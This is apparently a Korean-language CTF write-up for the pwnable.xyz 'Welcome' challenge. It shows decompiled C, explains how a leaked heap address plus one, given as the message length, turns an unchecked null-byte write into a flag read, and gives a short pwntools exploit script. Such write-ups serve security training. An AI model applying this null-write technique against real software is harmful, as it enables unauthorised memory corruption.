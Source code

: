 ```yaml
---
title: "[pwnable.xyz]Welcome"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
---
```


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *v3; // rbx
  __int64 v4; // rdx
  char *message; // rbp
  __int64 v6; // rdx
  size_t v7; // rdx
  size_t size; // [rsp+0h] [rbp-28h]
  unsigned __int64 v10; // [rsp+8h] [rbp-20h]
 
  v10 = __readfsqword(0x28u);
  sub_B4E();
  puts("Welcome.");
  v3 = malloc(262144uLL);
  *v3 = 1LL;
  _printf_chk(1LL, "Leak: %p\n", v3);
  _printf_chk(1LL, "Length of your message: ", v4);
  size = 0LL;
  _isoc99_scanf("%lu", &size);
  message = malloc(size);
  _printf_chk(1LL, "Enter your message: ", v6);
  read(0, message, size);
  v7 = size;
  message[size - 1] = 0;
  write(1, message, v7);
  if ( !*v3 )
    system("cat /flag");
  return 0LL;
}

```

중요한 부분은 if문인데 !*v3가 0이 되도록하면 풀 수 있겠다. 처음에 *v3 = 1 돼있다.

v3를 할당해주고 v3 주소를 Leak 해준다.

메세지를 size만큼 할당하고 그 size만큼 message를 입력받을 수 있다. 근데 message[size - 1]로 마지막 인덱스를 0으로 만들어버리니까 Leak 주소 + 1을 size로 보내면 *v3 = 0으로 되서 풀 수 있다.

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30000)
 
p.recvuntil('Leak: ')
leak = int(p.recvline(),16)
log.info('leak : ' + hex(leak))
p.sendlineafter(': ',str(leak+1))
p.sendlineafter(': ','Hello World!')
p.interactive()
```


